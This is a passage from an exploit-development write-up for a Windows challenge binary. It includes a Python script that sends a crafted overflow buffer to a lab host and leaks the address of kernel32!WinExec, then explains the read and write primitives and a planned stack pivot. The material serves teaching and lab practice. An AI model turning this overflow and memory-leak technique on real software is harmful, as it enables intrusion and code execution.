 ```python
# 16 total bytes
print "[+] Sending the third header..."
exploit_3 = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 byte offset to the byte we control
exploit_3 += "\x41" * 512

# Just want a vanilla mov rax, qword ptr[rcx], which already exists - so sliding in with a NOP to this instruction
exploit_3 += "\x90"

# Padding to load eko2019.exe+0x9010
exploit_3 += "\x41\x41\x41\x41\x41\x41\x41"
exploit_3 += struct.pack('<Q', base_address+0x9010)

# Message needs to be 528 bytes total
exploit_3 += "\x41" * (544-len(exploit_3))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit_3)

# Indexing the response to view RAX (VA of kernel32!WinExec)
receive_3 = s.recv(1024)
kernel32_unpack = struct.unpack_from('<Q', receive_3)
kernel32_winexec = kernel32_unpack[0]

print "[+] kernel32!WinExec is located at: {0}".format(hex(kernel32_winexec))

# Close the connection
s.close()
```

Landing on the move instruction, we can see that the address of `WinExec()` is about to be extracted from RCX!

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_53.png" alt="">

When this instruction executes, the value will be loaded into RAX and then returned to us (the client)!

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_54.png" alt="">

Do What You Can, With What You Have, Where You Are - Teddy Roosevelt
---

Recall up until this point, we have the following primitives:

1. Write primitive - we can control the value of RCX, one byte around our `mov` instruction, and we can control a lot of the stack.
2. Read primitive - we have the ability to read in values of pointers.

Using our ability to control RCX, we may have a potential way to pivot back to the stack. If you can recall from earlier, when we first increased our number of bytes from 512 to 528 and the `\x41` byte was accessed BEFORE the `mov rax, qword ptr [rcx]` instruction was executed (which resulted in an access violation and a subsequent crash), the disassembler didn't interpret `\x41` as part of the `mov rax, qword ptr [rcx]` instruction set - because that opcode doesn't create a valid set of opcodes with said move instruction.
